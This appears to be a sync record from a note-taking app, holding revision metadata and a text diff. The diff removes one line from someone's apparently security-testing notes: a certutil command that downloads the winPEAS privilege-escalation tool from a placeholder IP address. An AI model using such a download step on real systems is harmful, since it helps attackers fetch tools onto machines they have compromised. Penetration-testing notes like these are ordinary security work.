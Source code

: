 id: ad5ee5cff1c0490585d44d06047129fa
parent_id: 4a97110d9e414da985bac59de2cf798a
item_type: 1
item_id: 7fcb789b143c4fdead546ced081886f7
item_updated_time: 1658922774601
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\".exe\"],[-1,\"\\\n> \\\n> certutil.exe -urlcache -split http://x.x.x.x/winPEASany.exe\"]],\"start1\":596,\"start2\":596,\"length1\":69,\"length2\":4}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-27T12:02:17.389Z
created_time: 2022-07-27T12:02:17.389Z
type_: 13